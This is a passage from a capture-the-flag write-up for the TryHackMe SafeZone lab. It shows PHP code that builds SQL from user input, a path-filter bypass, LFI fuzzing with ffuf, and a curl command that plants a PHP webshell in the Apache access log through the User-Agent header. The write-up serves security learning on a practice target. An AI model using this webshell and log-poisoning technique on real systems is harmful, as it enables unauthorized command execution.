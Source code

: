 ```php
		$sql="select * from user where username='$formuser'";
                $details = mysqli_fetch_assoc(mysqli_query($con,$sql));
		$det=json_encode($details);
		echo "<pre style='color:red;font-size:14px'>$det</pre>";
		$msg="Details are saved in a file";
		echo "<script>alert('details saved in a file')</script>";
	}
}
else
{
echo "<h3 style='color:red;text-align:center'>You can't access this feature!'</h3>";
}
}
else
{
header('Location: index.php');
}

?>
```

In the `$file` variable, it replacing from `../` to `.."`. **But we can bypass it via providing an absolute path.**

Anyway, let's test can we read log files. **If we can, we can do LFI log poisoning.**

**To do so, I'll start fuzzing via `ffuf`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://safezone.thm/detail.php?page=FUZZ -b "PHPSESSID=3ibin405cjdtvgnju20k1sfa6g" -fw 120
[...]
/var/log/apache2/access.log [Status: 200, Size: 53032362, Words: 5952188, Lines: 501742, Duration: 611ms]
[...]
```

**We can read `/var/log/apache2/access.log`, which means we can do LFI log poisoning, and get a reverse shell!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230020830.png)

> Note: If you can't read it, try to restart the machine. Maybe the access log file is too big, and it can't read. (Fun fact: This problem is exactly what I've encountered during the OSCP exam...)

**Next, we can injection a PHP webshell!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# curl -A '<?php echo exec($_GET[cmd]) ; ?>' http://safezone.thm
```

**Finally, we can execute command via providing GET parameter `cmd`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230023418.png)
